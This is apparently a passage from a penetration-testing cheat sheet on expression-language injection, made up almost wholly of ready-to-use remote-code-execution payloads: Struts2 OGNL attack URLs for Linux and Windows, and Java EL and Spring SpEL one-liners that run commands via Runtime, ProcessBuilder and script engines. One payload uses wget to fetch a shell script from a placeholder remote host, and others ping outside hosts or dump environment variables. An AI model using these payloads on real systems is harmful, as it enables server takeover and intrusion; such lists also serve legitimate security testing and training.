 * RCE **linux**

```bash
https://www.example.url/?vulnerableParameter=${%23_memberAccess%3d%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS,%23wwww=@java.lang.Runtime@getRuntime(),%23ssss=new%20java.lang.String[3],%23ssss[0]="%2fbin%2fsh",%23ssss[1]="%2dc",%23ssss[2]=%23parameters.INJPARAM[0],%23wwww.exec(%23ssss),%23kzxs%3d%40org.apache.struts2.ServletActionContext%40getResponse().getWriter()%2c%23kzxs.print(%23parameters.INJPARAM[0])%2c%23kzxs.close(),1%3f%23xx%3a%23request.toString}&INJPARAM=touch%20/tmp/InjectedFile.txt
```

* RCE **Windows** (not tested)

```bash
https://www.example.url/?vulnerableParameter=${%23_memberAccess%3d%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS,%23wwww=@java.lang.Runtime@getRuntime(),%23ssss=new%20java.lang.String[3],%23ssss[0]="cmd",%23ssss[1]="%2fC",%23ssss[2]=%23parameters.INJPARAM[0],%23wwww.exec(%23ssss),%23kzxs%3d%40org.apache.struts2.ServletActionContext%40getResponse().getWriter()%2c%23kzxs.print(%23parameters.INJPARAM[0])%2c%23kzxs.close(),1%3f%23xx%3a%23request.toString}&INJPARAM=touch%20/tmp/InjectedFile.txt
```

* **More RCE**

```java
// Common RCE payloads
''.class.forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec(<COMMAND STRING/ARRAY>)
''.class.forName('java.lang.ProcessBuilder').getDeclaredConstructors()[1].newInstance(<COMMAND ARRAY/LIST>).start()

// Method using Runtime via getDeclaredConstructors
#{session.setAttribute("rtc","".getClass().forName("java.lang.Runtime").getDeclaredConstructors()[0])}
#{session.getAttribute("rtc").setAccessible(true)}
#{session.getAttribute("rtc").getRuntime().exec("/bin/bash -c whoami")}

// Method using processbuilder
${request.setAttribute("c","".getClass().forName("java.util.ArrayList").newInstance())}
${request.getAttribute("c").add("cmd.exe")}
${request.getAttribute("c").add("/k")}
${request.getAttribute("c").add("ping x.x.x.x")}
${request.setAttribute("a","".getClass().forName("java.lang.ProcessBuilder").getDeclaredConstructors()[0].newInstance(request.getAttribute("c")).start())}
${request.getAttribute("a")}

// Method using Reflection & Invoke
${"".getClass().forName("java.lang.Runtime").getMethods()[6].invoke("".getClass().forName("java.lang.Runtime")).exec("calc.exe")}

// Method using ScriptEngineManager one-liner
${request.getClass().forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("js").eval("java.lang.Runtime.getRuntime().exec(\\\"ping x.x.x.x\\\")"))}

// Method using ScriptEngineManager
{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"whoami\\\"); x.start()\")}}
${facesContext.getExternalContext().setResponseHeader("output","".getClass().forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("JavaScript").eval(\"var x=new java.lang.ProcessBuilder;x.command(\\\"wget\\\",\\\"http://x.x.x.x/1.sh\\\");

//https://github.com/marcin33/hacking/blob/master/payloads/spel-injections.txt
(T(org.springframework.util.StreamUtils).copy(T(java.lang.Runtime).getRuntime().exec("cmd "+T(java.lang.String).valueOf(T(java.lang.Character).toChars(0x2F))+"c "+T(java.lang.String).valueOf(new char[]{T(java.lang.Character).toChars(100)[0],T(java.lang.Character).toChars(105)[0],T(java.lang.Character).toChars(114)[0]})).getInputStream(),T(org.springframework.web.context.request.RequestContextHolder).currentRequestAttributes().getResponse().getOutputStream()))
T(java.lang.System).getenv()[0]
T(java.lang.Runtime).getRuntime().exec('ping my-domain.com')
```